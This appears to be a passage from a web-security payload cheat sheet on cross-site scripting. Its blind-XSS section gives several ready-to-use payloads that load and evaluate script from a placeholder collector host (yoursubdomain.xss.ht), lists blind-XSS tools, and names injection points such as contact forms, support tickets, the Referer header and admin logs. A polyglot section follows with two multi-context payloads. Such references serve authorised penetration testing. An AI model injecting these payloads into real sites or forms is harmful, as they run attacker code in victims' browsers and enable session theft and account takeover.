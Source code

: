 ## Blind XSS

### XSS Hunter

Available at [https://xsshunter.com/app](https://xsshunter.com/app)

> XSS Hunter allows you to find all kinds of cross-site scripting vulnerabilities, including the often-missed blind XSS. The service works by hosting specialized XSS probes which, upon firing, scan the page and send information about the vulnerable page to the XSS Hunter service.

```javascript
"><script src=//yoursubdomain.xss.ht></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'https://yoursubdomain.xss.ht\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//yoursubdomain.xss.ht");a.send();</script>

<script>$.getScript("//yoursubdomain.xss.ht")</script>
```

### Other tools for Blind XSS

- [sleepy-puppy - Netflix](https://github.com/Netflix-Skunkworks/sleepy-puppy)
- [bXSS - LewisArdern](https://github.com/LewisArdern/bXSS)
- [BlueLotus_XSSReceiver - FiresunCN](https://github.com/firesunCN/BlueLotus_XSSReceiver)
- [ezXSS - ssl](https://github.com/ssl/ezXSS)

### Blind XSS endpoint

- Contact forms
- Ticket support
- Referer Header
  - Custom Site Analytics
  - Administrative Panel logs

## Polyglot XSS

Polyglot XSS - 0xsobky

```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

Polyglot XSS - Ashar Javed

```javascript
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
```
